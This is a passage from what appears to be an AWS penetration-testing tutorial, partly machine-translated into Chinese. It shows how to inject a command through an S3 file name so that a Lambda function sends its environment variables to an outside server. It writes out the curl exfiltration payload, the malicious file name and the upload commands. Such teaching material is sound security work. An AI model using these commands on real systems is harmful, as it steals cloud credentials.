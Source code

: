 然后，我们将制定一个有效载荷，将窃取凭证。我们可以使用`"env"`命令访问环境变量，因此用 curl 向我们的外部服务器发出 HTTP POST 请求的一般命令，其中包括所有环境变量作为主体，如下所示：

```
curl -X POST -d "`env`" 1.1.1.1
```

这可能看起来有点奇怪，但因为`"env"`命令提供多行内容，所以需要将其放入引号中，否则它将破坏整个命令（尝试在自己的服务器上运行`"curl -X POST -d `env` 1.1.1.1"`并查看结果）。如果您不熟悉，反引号（```) instruct bash to run the `"env"` command prior to executing the whole `curl` command, so it will then `POST` those variables to our external server. Also, because our server is listening on port `80`, we don't need to include `http://` or the port in our `curl` command, because given an IP address, the default is to go to `http://1.1.1.1:80`. We can avoid a lot of unnecessary characters this way. This may not necessarily be a conventional way of doing this, but what is nice about this string is that it is easy to fit into a filename, which is exactly what we need to exploit this Lambda function!

Back to our payload; now, we will need to upload a file to S3 with the following name:

```

hello;curl -X POST -d "`env`" 1.1.1.1;.zip

```

Microsoft Windows won't let you create a file with this name because of the double quotes in it, but it is easy to do so with Linux. We can use the `touch` command to create the file. It will look like this:

```

touch 'hello;curl -X POST -d "`env`" 1.1.1.1;.zip'

```

The output of the preceding command will look something like this:

![](img/215c8c00-1f95-48dd-b752-e4274bc82d14.png)

Creating our file with the malicious name on our own Ubuntu server

Everything is in place now. All we need to do is ensure that our NetCat listener has started on our external server, and then we need to upload this file to the `bucket-for-lambda-pentesting` S3 bucket, then wait for the Lambda function to be invoked, and then, finally, wait for our malicious command to execute. We can upload it by using the S3 `copy` AWS CLI command to copy our local malicious file to the remote S3 bucket:

```

aws s3 cp ./'hello;curl -X POST -d "`env`" 1.1.1.1;.zip' s3://bucket-for-lambda-pentesting --profile LambdaReadOnlyTester

```
